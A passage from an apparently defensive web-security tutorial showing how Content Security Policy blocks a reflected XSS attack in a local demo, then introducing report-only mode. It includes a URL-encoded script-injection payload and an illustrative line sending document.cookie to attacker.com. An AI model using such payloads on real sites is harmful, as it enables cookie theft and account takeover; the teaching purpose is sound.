 This presents a nasty consequence: an attacker can craft a specific link that
executed arbitrary JavaScript on the victim's browser!

{% img center /images/wasec/xss-pwned.png %}

If you have the time and patience to run the example locally, you will be able
to quickly understand the power of CSP. I've added a query string parameter that
turns CSP on, so we can try navigating to a malicious URL with CSP turned on:

```
http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&csp=on
```

{% img center /images/wasec/xss-mitigated.png %}

As you see in the example above, we have told the browser that our CSP policy only
allows scripts included from the same origin of the current URL, which we can easily
verify by curling the URL:

```
$ curl -I "http://localhost:7888/?search=%3Cscript+type%3D%22text%2Fjavascript%22%3Ealert%28%27You%20have%20been%20PWNED%27%29%3C%2Fscript%3E&csp=on"

HTTP/1.1 200 OK
X-XSS-Protection: 0
Content-Security-Policy: default-src 'self'
Date: Sat, 11 Aug 2018 10:46:27 GMT
Connection: keep-alive
```

Since the XSS attack would be perpetrated through an *inline script* (a script
directly embedded in the HTML content), the browser politely refused to execute it,
keeping our user safe. Imagine if, instead of simply displaying an alert dialog,
the attacker would have set up a redirect to its own domain, through some JavaScript
code that could look like:

``` js
window.location = `attacker.com/${document.cookie}`
```

They would have been able to steal all of the user's cookies, which might contain
highly sensitive data (more on this in the next article).

By now, it should be clear how CSP helps us prevent a range of attacks on web applications:
you define a policy and the browser will strictly adhere to it, refusing to run
resources that would violate the policy.

An interesting variation of CSP is the *report-only* mode: instead of using the
`Content-Security-Policy` header, you can first test the impact of CSP on your
website by telling the browser to simply report errors, without blocking script
execution and so on, by using the `Content-Security-Policy-Report-Only` header.

Reporting will allow you to understand what breaking changes the CSP policy you'd
like to roll out might cause, and fix them accordingly -- we can even specify
a report URL and the browser will send us a report. Here's a full example of a
report-only policy:
